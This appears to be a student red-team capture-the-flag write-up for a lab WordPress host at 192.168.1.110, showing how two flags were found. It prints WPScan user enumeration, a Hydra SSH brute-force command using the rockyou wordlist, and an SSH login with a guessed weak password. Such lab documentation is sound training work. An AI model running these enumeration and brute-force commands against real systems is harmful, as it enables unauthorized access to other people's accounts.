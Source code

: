 ## Exploitation ##
  
The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

<b>Target 1<b>

flag1.txt: {b9bbcb33e11b80be759c4e844862482d}

Exploit Used:
  * WPScan to enumerate users on the Target1 WordPress site.
* Command: 
  * $ wpscan --url 192.168.1.110/wordpress $ wpscan --url 192.168.1.110 --enumerate -u
  
<img width="423" alt="image (4)" src="https://user-images.githubusercontent.com/100730516/186098760-1bcb8389-9ad7-4651-8727-3cea05fc3b88.png">

* Targeting the user michael
  
* Small manual Brute Force attack to guess/finds Michael's password.
  
* First, the user's password is weak and obvious.
  
* Second, for pratice, Hydra can be used to crack Michaels's password:
  
* Command: 
  * hydra -l michael -P /usr/share/wordlists/rockyou.txt -vV 192.168.1.110 -t 4 ssh


* Capturing Flag1: SSH in as Michael, transvering through directories and files.

* The first Flag was found in /var/www/html folder at root in services.html in a HTML comment below the footer.

* Commands:
  
  * ssh michael@192.168.1.110
  * password: michael
  * cd /var/www/html
  * ls -l
  * nano services.html
  
<img width="415" alt="image (7)" src="https://user-images.githubusercontent.com/100730516/186099164-3747f922-2d8d-493c-97f8-1cc4501a71dc.png">

<b>flag2.txt:<b> {fc3fd5Bdcdad9ab23facac6e9a365e581c33}
  
<img width="210" alt="image (6)" src="https://user-images.githubusercontent.com/100730516/186098944-eed98eb0-f25b-4566-b8d8-8f928865462b.png">

Exploit Used:
* The same exploit used to gain flag1.

* Capturing Flag2: While in SSH in as Michael, Flag2 was also gained.
  * Once again, browsing through the files and directories, Flag2 can be found in /var/www next to the html folder where Flag1 was found.

* Commands:
  * ssh michael@192.168.1.110
  * password: michael
  * cd /var/www
  * ls -l
  * cat flag2.txt
